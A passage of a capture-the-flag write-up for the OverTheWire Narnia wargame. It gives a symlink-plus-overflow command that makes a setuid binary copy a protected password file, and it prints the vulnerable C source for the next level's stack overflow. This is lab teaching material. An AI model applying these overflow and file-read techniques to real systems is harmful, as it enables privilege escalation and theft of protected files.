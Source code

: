 We want two things happening in *ifile*: first, to read the password file, then to overflows *ofile*, making it to point to a file we have access to read.

The best way to put all of this in one input name is creating a symbolic link with the following rules:

1. Point to */etc/narnia_pass/narnia4*.
2. Fill the 32 bytes of the *ifile* array with junk.
3. End with a some file name which we  had created before, and we have permission to read (we can just use ```touch``` to create an empty file).

The result, for a file name *out*, is:
```sh
$ ln -s /etc/narnia_pass/narnia4 $(python -c "print 'A'*32 + 'out'")
```

Now we can just run it and retrieve our password:
```sh
narnia3@melinda:/tmp$ /narnia/narnia3 `python -c "print 'A'*32 + 'out'"`copied contents of AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAout to a safer place... (out)
narnia3@melinda:/tmp$ cat out
```





_______


## Level 4: Classic Buffer Overflow with NOP

### Step 1: Understanding the Problem

This  fifth level starts with:

```sh
narnia4@melinda:/narnia$ ./narnia4
narnia4@melinda:/narnia$ cat narnia4.c

#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
  int i;
  char buffer[256];

  for(i = 0; environ[i] != NULL; i++)
    memset(environ[i], '\0', strlen(environ[i]));

  if(argc>1)
    strcpy(buffer,argv[1]);

  return 0;
}
```


[未经边界检查的输入]: http://en.wikipedia.org/wiki/Bounds_checking
[缓冲区溢出]: http://en.wikipedia.org/wiki/Buffer_overflow
[进程的虚拟内存]: http://en.wikipedia.org/wiki/Virtual_memory
[物理内存]: http://en.wikipedia.org/wiki/Computer_memory
[虚拟内存空间]: http://en.wikipedia.org/wiki/Virtual_memory
[堆栈的方向]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[内存段异常]: http://en.wikipedia.org/wiki/Segmentation_fault
[堆]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[这里是一些例子]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP